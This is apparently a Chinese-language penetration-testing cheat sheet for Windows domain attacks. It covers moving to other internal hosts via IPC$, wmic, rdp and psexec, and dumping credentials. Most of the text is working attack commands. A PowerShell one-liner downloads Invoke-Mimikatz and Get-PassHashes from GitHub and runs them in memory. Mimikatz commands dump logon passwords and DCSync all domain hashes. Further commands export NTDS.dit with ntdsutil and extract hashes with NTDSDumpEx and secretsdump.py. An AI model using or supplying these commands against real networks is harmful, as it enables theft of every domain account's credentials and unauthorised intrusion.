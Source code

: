 

### 访问内网其他主机

 net use建立Ipc$连接、wmic指令连接、采用rdp方式连接 , psexec进行远程连接 

![image2183](http://www.xmrseo.com/content/uploadfile/201805/dad51527169390.jpg)

`net use \\ip\ipc$ pawword /user:username  `建立IPC会话





### 抓取内存中的hash/密码

抓明文

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCerts
```

#### 普通hash

抓hash

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```

抓取明文:` mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit `

抓取hash:`mimikatz log "privilege::debug" "lsadump::lsa /patch" exit`

`mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:god.org /all /csv" exit`

#### 域hash

NTDS.dit获取域控hash

这个思路在域渗透中尤为重要，因为这里面包含着所有域用户的hash，当然该思路只对DC生效。

手动导出NTDS.dit和System-hive，本地或目标机导hash，因为，如果域足够大，该文件也会特别大。

` ntdsutil "ac i ntds" ifm "create full c:\users\tmp" q q `



` NTDSDumpEx -d ntds.dit -s system -o domain.txt `:注意-d 为ntds.dit路径,-s为system(导出的)路径

![image3247](https://image.3001.net/images/20191022/1571757314_5daf1d0242611.png!small)



```
python secretsdump.py -system SYSTEM -ntds ntds.dit local
python secretsdump.py rabbitmask:1q2w3e4r!@192.168.15.181

```

![image3460](https://image.3001.net/images/20191022/1571757406_5daf1d5ee8ee7.png!small)
